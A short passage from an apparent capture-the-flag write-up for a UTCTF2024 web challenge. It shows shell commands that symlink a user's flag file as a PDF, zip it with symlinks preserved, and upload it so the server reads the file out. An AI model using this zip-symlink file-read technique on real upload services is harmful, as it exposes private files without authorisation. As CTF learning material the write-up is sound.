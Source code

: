   <img src="/images/writeups/UTCTF2024/1_0_web.png" width="60%"/>
</p>

So we include the file and we can see the **copenhagen** user. The challenge points for the flag to be un the user home directory, so let's create a symlink to there:

```bash
kali@kali:~/Desktop/CTFs/UTCTF2024/Web$ ln -s /home/copenhagen/flag.txt symlink.pdf

kali@kali:~/Desktop/CTFs/UTCTF2024/Web$ zip --symlinks sym.zip symlink.pdf         
updating: symlink.pdf (stored 0%)
```

Upload the file and we get the flag:

<p align="center">
  <img src="/images/writeups/UTCTF2024/1_1_flag.png" width="50%"/>
</p>